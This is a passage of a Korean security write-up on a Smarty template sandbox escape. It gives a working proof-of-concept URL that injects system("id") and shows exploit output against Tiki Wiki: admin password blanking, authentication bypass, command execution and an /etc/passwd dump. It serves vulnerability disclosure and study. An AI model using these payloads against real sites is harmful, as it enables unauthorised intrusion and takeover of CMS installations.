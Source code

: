 즉, 공격 성공입니다. 원하는 코드를 삽입해 동작시킬 수 있습니다.

### Proof of Concept

위에서 설명한 **Hardened Sandbox**로 웹 페이지를 띄운 후 아래 주소로 접속합니다.

```
http://localhost:8000/page.php?poc=string:{function+name='rce(){};system("id");function+'}{/function}
```

![/assets/2021-07-01/smarty_5.png](/assets/2021-07-01/smarty_5.png)

# Real World Exploitation

Steven Seeley는 두 개의 CMS 플랫폼에 대해 본 문서에서 기술한 취약점을 적용해 익스플로잇에 성공했습니다.

## Tiki Wiki CMS Groupware

본 문서에서 기술한 취약점인 CVE-2021-26119와 CVE-2020-15906을 연계해 RCE에 성공했습니다.

익스플로잇 코드: [https://srcincite.io/pocs/cve-2021-26119.py.txt](https://srcincite.io/pocs/cve-2021-26119.py.txt)

```bash
researcher@incite:~/tiki$ ./poc.py
(+) usage: ./poc.py <host> <path> <cmd>
(+) eg: ./poc.py 192.168.75.141 / id
(+) eg: ./poc.py 192.168.75.141 /tiki-20.3/ id

researcher@incite:~/tiki$ ./poc.py 192.168.75.141 /tiki-20.3/ "id;uname -a;pwd;head /etc/passwd"
(+) blanking password...
(+) admin password blanked!
(+) getting a session...
(+) auth bypass successful!
(+) triggering rce...

uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux target 5.8.0-40-generic #45-Ubuntu SMP Fri Jan 15 11:05:36 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
/var/www/html/tiki-20.3
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```
